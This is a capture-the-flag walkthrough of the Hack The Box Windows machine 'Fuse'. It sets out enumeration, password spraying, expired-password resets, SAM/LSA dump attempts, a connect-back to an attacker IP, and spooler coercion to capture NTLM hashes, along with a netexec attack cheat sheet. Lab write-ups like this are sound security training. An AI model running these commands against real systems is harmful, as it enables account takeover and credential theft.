




Box: Windows 
Level: Medium
### Index
1. Box Info 
2. Initial Nmap Enumeration
3. [Web Enumeration](#Web%20Enumeration)
4. [LDAP Enumeration](#LDAP%20Enumeration)
5. [Kerberos - Checking Pre-Auth Enabled (ASREPROAST)](#Kerberos%20-%20Checking%20Pre-Auth%20Enabled%20(ASREPROAST))
6. [Crackmapexec Password Spraying](#Crackmapexec%20Password%20Spraying)
	1. [Preparing Wordlist using cewl](#Preparing%20Wordlist%20using%20cewl)
7. [Netexec - Connecting Host](#Netexec%20-%20Connecting%20Host)
	1. [ASREPROAST using netexec](#ASREPROAST%20using%20netexec)
	2. [Trying to connect using `smbclient` and failed.](#Trying%20to%20connect%20using%20`smbclient`%20and%20failed.)
	3. [`netexec` to execute command on target](#`netexec`%20to%20execute%20command%20on%20target)
	4. [`netexec smb` to enumerate share or dumping SAM file content.](#`netexec%20smb`%20to%20enumerate%20share%20or%20dumping%20SAM%20file%20content.)
	5. [LDAP Connect Back (Getting Shell) using `netexec`](#LDAP%20Connect%20Back%20(Getting%20Shell)%20using%20`netexec`)
	6. [Trying to get the shell using `impacket-wmiexec` and failed](#Trying%20to%20get%20the%20shell%20using%20`impacket-wmiexec`%20and%20failed)
	7. [Obtaining NetNTLMv2 Hash - Failed](#Obtaining%20NetNTLMv2%20Hash%20-%20Failed)
	8. [PrintNightMare CVE-2021-34527 Python Scanning](#PrintNightMare%20CVE-2021-34527%20Python%20Scanning)
	9. [Attempting CVE-2021-34527 - Successful](#Attempting%20CVE-2021-34527%20-%20Successful)
8. [Shell with `rpcclient`](#Shell%20with%20`rpcclient`)
	1. [Enum using `rpcclient`](#Enum%20using%20`rpcclient`)
	2. `Enumerating Printers - Enum Printers`
	3. `Enumerating Printers - Enum Printers`
	4. `Enumerating Domain Users - Enum Domain User`
	5. `Enumerating Domain Groups`
	6. `Creating Domain User`
	7. `Changing User Password`
	8. `Enumerate Privileges`
	9. `Add Rights to an account`
	10. `Enumerating SID and Convert SID to Names`
9.  [Shell as svc-print](#Shell%20as%20svc-print)
10. [Privilege Escalation](#Privilege%20Escalation)
	1. [winPEASany.exe Findings](#winPEASany.exe%20Findings)
	2. [SeLoadDriverPrivilege Escalation](#SeLoadDriverPrivilege%20Escalation)
### Box Info
```
Fuse is a medium difficulty Windows box made that starts with enumeration of a print job logging application From this we can harvest usernames and possible passwords for use in a password spray attack. This successfully identifies that three domain accounts have the same password set, although their passwords are expired. We can use the Windows API to set a new password. With valid credentials we can enumerate shared printers, which yields credentials for the printer service account. This account can be used to establish a WinRM shell on the machine. From this foothold we can abuse the SeLoadDriver privilege and get a shell as SYSTEM.
```

### Initial Nmap Enumeration

Running Initial Scan reveals the number of ports open. 
```
# nmap -p- --min-rate=10000 -Pn fuse.htb                  d
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49669/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49680/tcp open  unknown
49698/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

`Port 53`
```
# nmap -p53 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb
PORT   STATE SERVICE VERSION
53/tcp open  domain  Simple DNS Plus
```

`Port 80` redirects to the subdomain. Check below.
```
# nmap -p80 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
```

Upon opening `http://fuse.htb/` in the Firefox browser, The browser automatically redirects to the `http://fuse.fabricorp.local/papercut/logs/html/index.htm` which indicate that there is another VHOST running on the target. I added the `fuse.fabricorp.local` in the host file and load the web page. More on that later. Let's continue with Nmap.

`Port 88`
```
# nmap -p88 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb 
PORT   STATE SERVICE      VERSION
88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-01 14:54:25Z)
```

`Port 135`
```
# nmap -p135 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

`Port 139`
```
# nmap -p139 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Windows Server 2016 Standard 14393 netbios-ssn

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2024-09-01T09:50:19-07:00
|_clock-skew: mean: 2h33m16s, deviation: 4h02m33s, median: 13m13s
| smb2-time: 
|   date: 2024-09-01T16:50:17
|_  start_date: 2024-09-01T16:45:35
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```

Here while enumerating `Port 139`, We encounter the domain name `fabricorp.local`  along with Operating System `Windows Server 2016 Standard (6.3) 14393`.  Notice the `FQDN` field as well which is our new domain running web application on Port 80. More on that later when I will do Web Enumeration.

`Port 389`
```
# nmap -p389 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
```

The LDAP scan above also reveals the `Domain:` field. It might be useful while performing the LDAP Enumeration using `ldapsearch` or `jxplorer`.

`Port 445, 464`
```
# nmap -p445,464 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp open  kpasswd5?

Host script results:
| smb2-time: 
|   date: 2024-09-01T17:02:32
|_  start_date: 2024-09-01T16:45:35
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2024-09-01T10:02:34-07:00
|_clock-skew: mean: 2h33m17s, deviation: 4h02m35s, median: 13m14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Looking at the enumeration results from `Port 445 and 464`, It sounds like the Guest user is allowed however, no smb share was found in the initial enumeration. More on that later.
`Port 593`
```
# nmap -p593 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb

PORT    STATE SERVICE    VERSION
593/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
```


`Port 3268,3269,5985`
```
# nmap -p3268,3269,5985 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb

PORT     STATE SERVICE    VERSION
3268/tcp open  ldap       Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

We have HTTP service running on `Port 5985`. But we got `Not Found`.

`Port 9389`
```
# nmap -p9389 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb
PORT     STATE SERVICE VERSION
9389/tcp open  mc-nmf  .NET Message Framing
```

`Port 49666,49669,49675,49676,49680,49698`
```
# nmap -p49666,49669,49675,49676,49680,49698 --min-rate=1000 -sT -T2 -sC -sV -Pn -A fuse.htb

PORT      STATE    SERVICE    VERSION
49666/tcp open     msrpc      Microsoft Windows RPC
49669/tcp filtered unknown
49675/tcp open     ncacn_http Microsoft Windows RPC over HTTP 1.0
49676/tcp open     msrpc      Microsoft Windows RPC
49680/tcp open     msrpc      Microsoft Windows RPC
49698/tcp open     msrpc      Microsoft Windows RPC
```

### Web Enumeration

The Initial redirection leads us to the following page on `http://fuse.fabricorp.local/papercut/logs/html/index.htm`.



But we are also going to enumerate some more domains. Couple of `ffuf` runs which didn't results into anything but worth noting here.

```
# ffuf -H "Host: fuse.FUZZ.htb" -u http://fuse.htb/ -mc 200 -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fl 1
# ffuf -H "Host: FUZZ.fuse.htb" -u http://fuse.htb/ -mc 200 -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fl 1
```

Along with wfuzz run as well.
```
# wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --hc 400,404,403 --hw 5 -H "Host: FUZZ.fabricorp.local" -u http://fabricorp.local -t 100

# wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --hc 400,404,403 --hw 5 -H "Host: FUZZ.fabricorp.local" -u http://fuse.htb -t 100
```

Upon exploring `http://fuse.fabricorp.local/papercut/logs/html/index.htm` We have following things.

App Name: PaperCut


Couple of usernames and Printer Name. Click on all the Date Links and prepare a username list. Also, the Document Name and Client in the following is something interesting. More or that later.



Here is the username list I prepare
```
# cat usernames      
pmerton
tlavel
sthompson
bhult
administrator
```

Upon Looking at the source code, We notice that the `CSV` file can be downloaded from the following link. Notice the Path.
```
<tr><td><a href="papercut-print-log-2020-05-29.htm">29 May 2020</a></td><td><a href="papercut-print-log-2020-05-29.htm">View</a></td><td><a href="../csv/daily/papercut-print-log-2020-05-29.csv">CSV/Excel</a></td><td><a href="../csv/monthly/papercut-print-log-2020-05.csv">CSV/Excel</a></td></tr>

<tr><td><a href="papercut-print-log-2020-05-30.htm">30 May 2020</a></td><td><a href="papercut-print-log-2020-05-30.htm">View</a></td><td><a href="../csv/daily/papercut-print-log-2020-05-30.csv">CSV/Excel</a></td><td><a href="../csv/monthly/papercut-print-log-2020-05.csv">CSV/Excel</a></td></tr>

<tr><td><a href="papercut-print-log-2020-06-10.htm">10 Jun 2020</a></td><td><a href="papercut-print-log-2020-06-10.htm">View</a></td><td><a href="../csv/daily/papercut-print-log-2020-06-10.csv">CSV/Excel</a></td><td><a href="../csv/monthly/papercut-print-log-2020-06.csv">CSV/Excel</a></td></tr>
```

Upon Intercepting the HTTP request response pair, I got the version of this Print Logger. We have `Version=13.3.0.22799`.



### LDAP Enumeration

Trying to enumerate `Port 389` and `Port 636`

```
# ldapsearch -H ldap://fabricorp.local:389/ -x -s base -b  "dc=fabricorp,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=fabricorp,dc=local> with scope baseObject
# filter: (objectclass=*)
# requesting: ALL

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1
```

Trying to enumerate LDAP with password `-x` and same as above results. Same results for `Port 3268` and `Port 3269`
```
# ldapsearch -x -H ldap://fabricorp.local:389/ -D 'dc=fabricorp,dc=fuse,dc=local' -W -b 'DC=FABRICORP,DC=LOCAL'
Same Results as above
```

Retrieval of namingContexts
```
# ldapsearch -H ldap://fabricorp.local/ -x -LLL -b '' -s base namingContexts
dn:
namingContexts: DC=fabricorp,DC=local
namingContexts: CN=Configuration,DC=fabricorp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local
```

###### ldapsearch - Anonymous Bind 

`Port 389`
```
# ldapsearch -H ldap://fabricorp.local/ -x -LLL -b '' -s base namingContexts
dn:
namingContexts: DC=fabricorp,DC=local
namingContexts: CN=Configuration,DC=fabricorp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local


┌──(root㉿kali)-[/home/ringbuffer/Downloads]
└─# ldapsearch -H ldap://fabricorp.local/ -x -LLL -b 'DC=fabricorp,DC=local' 'dn'     
Operations error (1)
Additional information: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v3839
```

`Port 636`
```
# ldapsearch -H ldap://fabricorp.local:636/ -x -LLL -b '' -s base namingContexts
ldap_result: Can't contact LDAP server (-1)
```

`Port 3268`
```
# ldapsearch -H ldap://fabricorp.local:3268/ -x -LLL -b '' -s base namingContexts
dn:
namingContexts: DC=fabricorp,DC=local
namingContexts: CN=Configuration,DC=fabricorp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local

┌──(root㉿kali)-[/home/ringbuffer/Downloads]
└─# ldapsearch -H ldap://fabricorp.local:3268/ -x -LLL -b 'dc=fabricorp,dc=local' dn
Operations error (1)
Additional information: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v3839
```

For `Port 3269` The results were same as `Port 636`.  LDAPSSL was not pulling out any information.

### Kerberos - Checking Pre-Auth Enabled (ASREPROAST)

```
# impacket-GetNPUsers -request -usersfile Fuse.htb/usernames -no-pass  -dc-ip 10.10.10.193 'fabricorp.local/'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User pmerton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tlavel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sthompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bhult doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

None of the users we have enumerated so far have the Pre_Auth Enabled.

### Crackmapexec Password Spraying 

Now that we have list of users. We can perform password spraying using `crackmapexec`. Following is the something I got from Cheatsheet.
```
# Bruteforcing and Password Spraying
crackmapexec smb 192.168.100.0/24 -u "admin" -p "password1"
crackmapexec smb 192.168.100.0/24 -u "admin" -p "password1" "password2"
crackmapexec smb 192.168.100.0/24 -u "admin1" "admin2" -p "P@ssword"
crackmapexec smb 192.168.100.0/24 -u user_file.txt -p pass_file.txt
crackmapexec smb 192.168.100.0/24 -u user_file.txt -H ntlm_hashFile.txt
```

Trying it out on our target. `netexec` is formally known as `crackmapexec`. 
```
# netexec smb 10.10.10.193 -u usernames -p /usr/share/wordlists/seclists/Passwords/common_corporate_passwords.lst | grep -v 'STATUS_LOGON_FAILURE'
SMB                      10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)

WAITING....To Get Something On MY CLI.....
```

While Waiting, I prepare a small list of password from the Document Names that we are seeing in the `http://fuse.fabricorp.local/papercut/logs/html/papercut-print-log-2020-05-30.htm` and we were able to get something interesting while doing password spraying with a small list

###### Preparing Wordlist using cewl
```
# cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist

# cat wordlist                                                                           
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Print
2020
PaperCut
Logs
MFT01
PCL6
CSV
Excel
Logger
LETTER
NOT
DUPLEX
GRAYSCALE
papercut
com
http
www
May
................Little Long But we are going to use this wordlist for this target here................
```

```
# # netexec smb 10.10.10.193 -u usernames -p wordlist | grep -v 'STATUS_LOGON_FAILURE'
SMB                      10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB                      10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB                      10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

We are getting `[-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE` for the password `Fabricorp01`. This is for two users `tlavel` and `bhult`. We can do the same thing with `hydra` but I am not sure why my `hydra` decided not to reveal that the password for two of the accounts are successful. Here's my `hydra` results.
```
# hydra -L usernames -p wordlist 10.10.10.193 smb

[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 5 login tries (l:5/p:1), ~5 tries per task
[DATA] attacking smb://10.10.10.193:445/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-02 15:00:00
```
### Netexec - Connecting Host

Following commands are imported from Cheatsheet's. We are going to try one of these.
```
netexec ldap <RHOST> -u '' -p '' --asreproast <file_nm> # You can perfrom ASREPROAST using netexec as well
netexec ldap <RHOST> -u '' -p '' -M user-desc
netexec ldap <RHOST> -u '' -p '' -M get-desc-users
netexec ldap <RHOST> -u '' -p '' -M ldap-checker
netexec ldap <RHOST> -u '' -p '' -M veeam
netexec ldap <RHOST> -u '' -p '' -M maq
netexec ldap <RHOST> -u '' -p '' -M adcs
netexec ldap <RHOST> -u '' -p '' -M zerologon
netexec ldap <RHOST> -u '' -p '' -M petitpotam
netexec ldap <RHOST> -u '' -p '' -M nopac
netexec ldap <RHOST> -u '' -p '' --use-kcache -M whoami
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa -k
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa-convert-id <ID>
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa-decrypt-lsa <ACCOUNT>
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M get-network -o ALL=true
netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --bloodhound -ns <RHOST> -c a
```
###### ASREPROAST using netexec
```
# netexec ldap 10.10.10.193 -u 'fabricorp.local\tlavel' -p 'Fabricorp01' --asreproast test 
SMB         10.10.10.193    445    FUSE       [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.193    389    FUSE       [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

```
# netexec ldap 10.10.10.193 -u 'tlavel' -p 'Fabricorp01' -M user-desc 
SMB         10.10.10.193    445    FUSE       [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.193    389    FUSE       [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

###### Trying to connect using `smbclient` and failed.
```
# smbclient -U 'fabricorp.local/tlavel%Fabricorp01' //10.10.10.193/C$
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

###### `netexec` to execute command on target
```
$ netexec wmi 10.10.10.193 -d fabricorp.local -u 'tlavel' -p 'Fabricorp01' -x whoami --exec-method wmiexec
RPC         10.10.10.193    135    FUSE             [*] Windows 10 / Server 2016 Build 14393 (name:FUSE) (domain:fabricorp.local)
RPC         10.10.10.193    135    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 (STATUS_PASSWORD_MUST_CHANGE)
```

###### `netexec smb` to enumerate share or dumping SAM file content. 
```
# netexec smb 10.10.10.193 -u tlavel -p Fabricorp01 
SMB         10.10.10.193    445    FUSE      [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE      [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 

# netexec smb 10.10.10.193 -u tlavel -p Fabricorp01 --spider C$
SMB         10.10.10.193    445    FUSE      [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE      [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 

# netexec smb 10.10.10.193 -u tlavel -p Fabricorp01 --sam      
SMB         10.10.10.193    445    FUSE      [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE      [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 

# netexec smb 10.10.10.193 -u tlavel -p Fabricorp01 --lsa
SMB         10.10.10.193    445    FUSE       [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE       [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 

# netexec smb 10.10.10.193 -u tlavel -p Fabricorp01 -X 'Get-Printers'    # -X is to execute PowerShell Command
SMB         10.10.10.193    445    FUSE       [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE       [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE

# rpcclient 10.10.10.193 -U 'fabricorp.local/bhult%Fabricorp01' 
Cannot connect to server.  Error was NT_STATUS_PASSWORD_MUST_CHANGE
```

###### LDAP Connect Back (Getting Shell) using `netexec`
```
# netexec ldap 10.10.10.193 -u 'bhult' -p 'Fabricorp01' -d 'fabricorp.local' --connectback-host 10.10.14.2:4444 
SMB         10.10.10.193    445    FUSE    [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.193    389    FUSE    [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

At this point I tried to use `impacket-changepasswd` following to that I use the `netexec` to connect with a new password and I was getting `Access_Denied`.
```
# impacket-changepasswd 'fabricorp.local/bhult:Fabricorp01@10.10.10.193' -newpass 'Fabricorp02'      
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Changing the password of fabricorp.local\bhult
[*] Connecting to DCE/RPC as fabricorp.local\bhult
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.

# impacket-changepasswd 'fabricorp.local/tlavel:Fabricorp01@10.10.10.193' -newpass 'Fabricorp02' 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Changing the password of fabricorp.local\tlavel
[*] Connecting to DCE/RPC as fabricorp.local\tlavel
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

I was able to change the password successfully. However, When I tried he following command, it failed. I was getting `Access_Denied`
```
# netexec wmi 10.10.10.193 -d fabricorp.local -u 'bhult' -p 'Fabricorp02' -x whoami --exec-method wmiexec
RPC         10.10.10.193    135    FUSE             [*] Windows 10 / Server 2016 Build 14393 (name:FUSE) (domain:fabricorp.local)
RPC         10.10.10.193    135    FUSE             [-] fabricorp.local\bhult:Fabricorp02 (RPC_S_ACCESS_DENIED)

# netexec wmi 10.10.10.193 -d fabricorp.local -u 'tlavel' -p 'Fabricorp02' -x whoami --exec-method wmiexec
RPC         10.10.10.193    135    FUSE             [*] Windows 10 / Server 2016 Build 14393 (name:FUSE) (domain:fabricorp.local)
RPC         10.10.10.193    135    FUSE             [-] fabricorp.local\tlavel:Fabricorp02 (RPC_S_ACCESS_DENIED)
```

###### Trying to get the shell using `impacket-wmiexec` and failed
```
# impacket-changepasswd 'fabricorp.local/bhult:Fabricorp01@10.10.10.193' -newpass 'Fabricorp04' 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Changing the password of fabricorp.local\bhult
[*] Connecting to DCE/RPC as fabricorp.local\bhult
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.

# impacket-wmiexec 'fabricorp.local/bhult:Fabricorp04@10.10.10.193' 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

###### Obtaining NetNTLMv2 Hash - Failed

Get this [GitHub Repo](https://github.com/NotMedic/NetNTLMtoSilverTicket) and start the responder.
```
# impacket-changepasswd 'fabricorp.local/bhult:Fabricorp01@10.10.10.193' -newpass 'Fabricorp03' 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Changing the password of fabricorp.local\bhult
[*] Connecting to DCE/RPC as fabricorp.local\bhult
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.


# python dementor.py -d 'fabricorp.local' -u 'bhult' -p 'Fabricorp03' 10.10.14.2 10.10.10.193
[*] connecting to 10.10.10.193
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] done!

# responder -I tun0
[+] Listening for events...                                                                                                                              
[SMB] NTLMv2-SSP Client   : 10.10.10.193
